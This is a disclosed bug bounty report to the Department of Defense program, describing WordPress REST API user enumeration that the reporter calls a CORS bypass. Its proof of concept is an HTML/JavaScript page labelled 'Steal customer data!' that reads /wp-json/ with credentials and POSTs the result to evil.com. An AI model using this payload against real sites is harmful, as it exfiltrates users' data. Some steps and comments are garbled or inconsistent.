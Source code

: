 # Bypassing CORS Misconfiguration Leads to Sensitive Exposure

## Report Details
- **Report ID**: 768151
- **URL**: https://hackerone.com/reports/768151
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-04T15:52:16.243Z
- **Disclosed**: 2020-05-14T17:16:51.417Z

## Reporter
- **Username**: deb0con
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Hi!** Security Team @deptofdefense, 
It's possible to get information about the users registered (such as: id, name, login name, etc.) without authentication in 
Wordpress via API on 
*. ███████.

***Description:***
By default Wordpress allow public access to Rest API to get informations about all users registered on the system.

Platform(s) Affected: [website]
*. https://████/wp-json/

##Steps To Reproduce:
1) Repreat URL Vulnerable to Burp Suite
2) If you add the ``Origin-parameter`` to the ``Request-header``, the responsive header will reject
3) Bypassing Using Exploit CORS-With Sensitive
4) Open Request Vulnerability URL in ``/wp-json/` , when you open the url, you can see ``path-routes`` disclousure
**Proof On Concept:**
```javascript
<!DOCTYPE html>
<html>
<body>
<center>
<h3>Steal customer data!</h3>
<html>
<body>
<button type='button' onclick='cors()'>Exploit</button>
<p id='demo'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var a = this.responseText; // Sensitive data from niche.co about user account
document.getElementById("demo").innerHTML = a;
xhttp.open("POST", "http://evil.com", true);// Sending that data to Attacker's website
xhttp.withCredentials = true;
console.log(a);
xhttp.send("data="+a);
}
};
xhttp.open("GET", "https://██████/wp-json/", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>
```
6) save file as ``.html`` and open in mozzila-firefox , and **boom** sensitive has been exposure
**Remediation:**
There are 2 ways that it's possible to fix this problem.
**FIX 1** - It's possible to remove this access for anyone by change the source code where when someone request the Rest API and the server send a 404 (Not Found) message for the user who made the request. 
Reference: https://github.com/WP-API/WP-API/issues/2338
**FIX 2** - It's also possible to create a rewrite rule on .htaccess (if the webserver it's Apache) to redirect any request that contain rest_route (eg.: "^.rest_route=/wp/") to a Not Found (404) or a Default Page.

##POC Screenshots Material/References:
  * ███████
  * █████████
  * █████

## Impact

1. It's possible to get all the users registered on the system and create a bruteforce directed to these users.
2. Cross Misconfiguration -Leakage Sensitive Information

## Attachments
No attachments
